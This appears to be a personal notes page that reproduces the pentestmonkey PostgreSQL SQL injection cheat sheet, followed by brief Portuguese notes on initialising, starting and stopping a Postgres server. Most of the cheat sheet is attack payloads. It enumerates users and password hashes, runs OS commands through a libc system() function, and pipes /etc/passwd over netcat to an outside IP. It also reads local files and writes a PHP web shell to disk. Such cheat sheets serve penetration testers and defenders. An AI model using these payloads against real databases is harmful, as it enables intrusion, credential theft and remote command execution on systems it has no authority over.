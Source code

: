 
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT version()</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1; –comment<br>
SELECT /*comment*/1;</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user;<br>
SELECT current_user;<br>
SELECT session_user;<br>
SELECT usename FROM pg_user;<br>
SELECT getpgusername();</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT usename FROM pg_user</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT usename, passwd FROM pg_shadow — priv</td>
</tr>
<tr>
<td>Password Cracker</td>
<td><a href="http://pentestmonkey.net/blog/cracking-postgres-hashes/">MDCrack</a> can crack PostgreSQL’s MD5-based passwords.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT usename FROM pg_user WHERE usesuper IS TRUE</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT current_database()</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT datname FROM pg_database</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0<br>
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1); — returns c</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT 6 &amp; 2; — returns 2<br>
SELECT 6 &amp; 1; –returns 0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT chr(65);</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’);</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT CAST(1 as varchar);<br>
SELECT CAST(’1′ as int);</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ || ‘B’; — returnsAB</td>
</tr>
<tr>
<td>If Statement</td>
<td>IF statements only seem valid inside functions, so aren’t much use for SQL injection.&nbsp; See CASE statement instead.</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT CHR(65)||CHR(66); — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>SELECT pg_sleep(10); — postgres 8.2+ only<br>
CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.&nbsp; Taken from <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">here</a> .</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>Generally not possible in postgres.&nbsp; However if <a href="http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html">contrib/dblink</a>is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<p></p>
<pre>SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT);</pre>
<p>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.</p></td>
</tr>
<tr>
<td>Command Execution</td>
<td>CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user</td>
</tr>
<tr>
<td>Local File Access</td>
<td>CREATE TABLE mydata(t text);<br>
COPY mydata FROM ‘/etc/passwd’; — priv, can read files which are readable by postgres OS-level user<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; — get data back one row at a time<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 2; — get data back one row at a time …<br>
DROP TABLE mytest mytest;Write to a file:<p></p>
<p>CREATE TABLE mytable (mycol text);<br>
INSERT INTO mytable(mycol) VALUES (‘&lt;? pasthru($_GET[cmd]); ?&gt;’);<br>
COPY mytable (mycol) TO ‘/tmp/test.php’; –priv, write files as postgres OS-level user.&nbsp; Generally you won’t be able to write to the web root, but it’s always work a try.<br>
– priv user can also read/write files by <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">mapping libc functions</a></p></td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT inet_server_addr(); — returns db server IP address (or null if using local connection)<br>
SELECT inet_server_port(); — returns db server IP address (or null if using local connection)</td>
</tr>
<tr>
<td>Create Users</td>
<td>CREATE USER test1 PASSWORD ‘pass1′; — priv<br>
CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time</td>
</tr>
<tr>
<td>Drop Users</td>
<td>DROP USER test1; — priv</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>ALTER USER test1 CREATEUSER CREATEDB; — priv</td>
</tr>
<tr>
<td>&nbsp;Location of DB files</td>
<td>SELECT current_setting(‘data_directory’); — priv<br>
SELECT current_setting(‘hba_file’); — priv</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>template0<br>
template1</td>
</tr>
</tbody>
</table>


# Instalação do Zero (windows) com o Super Usuario
`initdb.exe -U postgres -W -D D:\caminho\da\pasta\do\BD`

# Iniciar o banco 
`pg_ctl -D /pasta/de/dados -l logfile start`

# Parar o banco
`pg_ctl -D /pasta/de/dados -l logfile stop`




# Mais

* https://www.enterprisedb.com/blog/the-complete-oracle-to-postgresql-migration-guide-tutorial-move-convert-database-oracle-alternative